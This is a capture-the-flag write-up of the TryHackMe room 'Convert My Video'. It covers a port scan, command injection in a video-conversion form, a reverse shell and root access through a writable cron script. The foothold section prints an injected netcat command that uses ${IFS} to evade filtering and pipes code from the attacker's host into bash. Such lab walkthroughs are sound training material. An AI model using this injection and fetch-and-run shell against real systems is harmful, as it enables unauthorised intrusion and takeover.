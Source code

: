 ```yaml
---
title: "TryHackMe - Convert My Video"
author: Nasrallah
description: ""
date: 2023-02-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, cronjob, commandinjection]
img_path: /assets/img/tryhackme/convertmyvideo
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Convert My Video](https://tryhackme.com/room/convertmyvideo) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.140.178
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports

 - 22 OpenSSH

 - 80 Apache http web server


## Web

Let's navigate to the web page.

![](1.png)

Here we have an application that converts youtube videos to mp3.

Let's submit something and see what happens.

![](2.png)

We got a error message, let's check the request/response in burp suite.

![](3.png)

The text we submit get added to the string `https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D` and gets send in the parameter `yt_url` using a POST request.

Let's test for command injection.

![](4.png)

The application is vulnerable through `yt_url` parameter.

# **Foothold**

Time for a reverse shell but first, i tried running commands that contains spaces like `uname -a` and didn't get the result back so we need to bypass this using `${IFS}`.

For the reverse shell, i setup a netcat listener and fed a reverse shell to it.

```bash
nc -lvnp 1234 < shell.sh
```

Then i setup another netcat listener to receive the shell.

After using the command injection vulnerability, i connected to the first listener and piped it to bash.

```bash
nc${IFS}10.11.14.124${IFS}1234|bash
```

![](5.png)


![](6.png)

We got the shell.

# **Privilege Escalation**

On `/var/www/html/tmp/` i found a file called `clean.sh`, so i thought there might be a cronjob running it.

I uploaded a copy of `pspy64` and listened for running processes.

![](7.png)

Indeed there is a cronjob, let's edit the clean.sh file to get root.

![](8.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
